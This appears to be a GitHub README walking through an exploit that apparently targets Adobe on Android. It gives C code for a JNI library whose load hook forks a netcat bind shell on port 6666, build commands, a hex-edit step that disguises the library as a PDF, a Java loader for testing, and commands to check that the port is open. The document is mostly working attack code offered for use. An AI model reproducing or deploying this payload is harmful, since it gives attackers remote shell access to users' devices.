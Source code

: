 ## Notes

The .so file must be prefixed with `lib` and have the extension `.so` in order to be loaded by the JVM. For example, `libhello.so` is loaded by `System.loadLibrary("hello")`.

## How it works?

### Step 1.

First create the code that will be compiled into the library code. We have the code stored in code.c.

```C
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {

    if (fork() == 0) {
        system("toybox nc -p 6666 -L /system/bin/sh -l");
    }
    JNIEnv* env;
    if ((*vm)->GetEnv(vm, (void**)&env, JNI_VERSION_1_6) != JNI_OK) {
        return JNI_ERR;
    }
    return JNI_VERSION_1_6;
}
```

### Step 2.

Compile C code into shared library binary code. This is the file we will send to Adobe in attempt to exploit it.

```bash
gcc -shared -fPIC -I/usr/lib/jvm/default-java/include -I/usr/lib/jvm/default-java/include/linux -o libs/libopen_cv.so code.c
```

Edit the binary of the file to add the magic PDF bytes so Adobe will accept it as a PDF file.

```bash
hexedit libopen_cv.so
```

![Hex Editor](images/hex.png)

### Step 3.

For testing we have this Java code that will load and thus run the .so code in a sandbox.

```Java
public class Test {
    static {
        System.loadLibrary("opencv_info");
    }
    public static native void JNI_OnLoad();

    public static void main(String[] args) {
        System.out.print("RUNNING");
    }
}
```

### Step 4.

We compiled the Java code using the following command.

```bash
javac Test.java
```

### Step 5.

Run the Java program which will call the .so and thus open a port on 6666 on the device.

```bash
java -Djava.library.path=/home/kali/Desktop/code/libs Test
```

### Step 6.

To check if successful (besides an error log), we used a netstat command. If you see the port 6666 is open that means the shared library file was executed and thus you can run a reverse shell.

```bash
netstat -tuln
```

### Step 7.

To see which process is using the port 6666, so we can reset if needed.

```bash
lsof -i :6666
```

Kill the process to restart.

```bash
kill [PID]
```

```bash
cd D:\Users\Admin\platform-tools_r34.0.5-windows\platform-tools
.\adb -s 23c00d78cd0c7ece logcat
```
